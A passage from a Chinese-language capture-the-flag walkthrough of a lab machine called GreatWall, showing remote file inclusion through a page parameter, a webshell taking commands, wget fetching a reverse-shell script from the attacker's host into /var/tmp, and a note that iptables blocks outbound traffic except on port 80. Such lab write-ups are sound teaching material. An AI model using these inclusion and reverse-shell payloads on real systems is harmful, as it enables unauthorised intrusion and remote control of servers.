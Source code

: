 查了一些没发现痕迹，

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103380.png" alt="image-20250618151718927" style="zoom:50%;" />

尝试各种反弹shell都没用。。。。猜测可能是因为请求的是外部文件，无法对本地环境进行修改，尝试下载反弹shell到网站目录再进行访问：

> 中间重新配置了一下vmware虚拟网络，故IP发生了一点变化：

```bash
# http://192.168.182.129/?page=http://192.168.182.128/webshell.jpg&cmd=id
http://192.168.182.129/?page=http://192.168.182.128/webshell.jpg&cmd=wget http://192.168.182.128/revshell.php -O /var/www/html/revshell.php
http://192.168.182.129/?page=http://192.168.182.128/webshell.jpg&cmd=pwd
# total 12
# drwxr-xr-x 2 root root 4096 May 11 02:07 .
# drwxr-xr-x 3 root root 4096 May 10 19:18 ..
# -rw-r--r-- 1 root root 3646 May 11 02:07 index.php
```

发现没有写的权限，尝试换一个目录试试。。。。

```bash
http://192.168.182.129/?page=http://192.168.182.128/webshell.jpg&cmd=wget http://192.168.182.128/revshell.php -O /var/tmp/revshell.php
http://192.168.182.129/?page=http://192.168.182.128/webshell.jpg&cmd=ls -la /var/tmp/revshell.php
# total 20
# drwxrwxrwt  4 root     root     4096 Jun 18 22:44 .
# drwxr-xr-x 12 root     root     4096 May 10 19:18 ..
# -rw-r--r--  1 www-data www-data 3913 Jun 18 22:36 revshell.php
# drwx------  3 root     root     4096 Jun 18 22:32 systemd-private-5fdfb580855d4b458ba6ce1501508a88-apache2.service-LJlBee
# drwx------  3 root     root     4096 Jun 18 22:32 systemd-private-5fdfb580855d4b458ba6ce1501508a88-systemd-logind.service-7k7Q7J
```

> `drwxrwxrwt`的t：仅当作用于目录时有效。**即使其他用户有写权限（`w`），也只能删除自己创建的文件/目录**，无法删除其他用户的文件（需所有者或 `root` 才能删除）若同时有 `x`（执行权限），显示为小写 `t`（如 `rwt`）；若无 `x` 权限，显示为大写 `T`（如 `rwT`），此时粘滞位无效

说明拥有执行权限。。。。

然后我翻了一下[城南的wp](https://pepster.me/MazeSec-GreatWall-Walkthrough/)，发现设置了`iptables`，不允许流量出站，其实很早就有相关的现象，比如前面的执行命令了，但并未反弹，以及我一开始以为的长度过长导致无法远程包含的现象，我居然一直视而不见。。。。。值得反思。。。

### iptables流量不出站

一些之前应该做的但是我漏掉的在这里进行一定的记录：

```bash
┌──(kali㉿kali)-[~/temp/Greatwall]
└─$ echo '<?php phpinfo();?>' > phpinfo.php 
# http://192.168.182.129/?page=http://192.168.182.128/phpinfo.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506190103381.png" alt="image-20250618234001639" style="zoom:50%;" />

允许包含。。。只需要将反弹shell的端口设置为`80`即可，我有过猜想但终归没有付诸实践。。。
